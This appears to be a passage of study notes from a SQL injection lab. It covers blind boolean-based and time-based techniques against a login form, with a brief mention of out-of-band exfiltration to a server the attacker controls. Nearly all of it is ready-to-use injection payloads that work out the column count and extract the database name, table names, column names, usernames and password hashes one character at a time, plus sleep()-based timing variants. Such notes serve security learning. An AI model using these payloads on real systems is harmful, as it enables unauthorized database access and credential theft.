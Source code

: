 if we use a non existent username with a union select + something we want to know if it's returning something

`admin123' UNION SELECT 1;--` gives false, since wrong number of columns
`admin123' UNION SELECT 1,2,3;--` gives true

<u>get database name</u>
`admin123' UNION SELECT 1,2,3 where database() like '%';--`  true
`admin123' UNION SELECT 1,2,3 where database() like 's%';--`  true
`admin123' UNION SELECT 1,2,3 where database() like 'sq%';--`  true
`admin123' UNION SELECT 1,2,3 where database() like 'sqw%';--`  false
`admin123' UNION SELECT 1,2,3 where database() like 'sql%';--`  true

<u>get table name</u>
`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--`
`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'user%';--`

confirm you get the correct name by skipping the like bit like this:
`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--`

<u>get column name</u>
`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`

to not get the same hit twice what automating:
`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`

<u>get data</u> like username and password
`admin123' UNION SELECT 1,2,3 from users where username like 'a%`
`admin123' UNION SELECT 1,2,3 from users where username like 'ad%`

`admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '38%`

#### Time-based

we're getting no output, even true/false, so we delay instead

`admin123' UNION SELECT sleep(5);--` gives no delay, since wrong number of columns
`admin123' UNION SELECT sleep(5),2;--` gives a five sec delay since the table has two columns

We can use all of the same queries as with boolean, only adding sleep(n) as one of the column representations

### Out-of-Band

the data collection method is something totally different than the one launching the attack
for example it can be sent to a http/dns server you control






### Stacked Queries

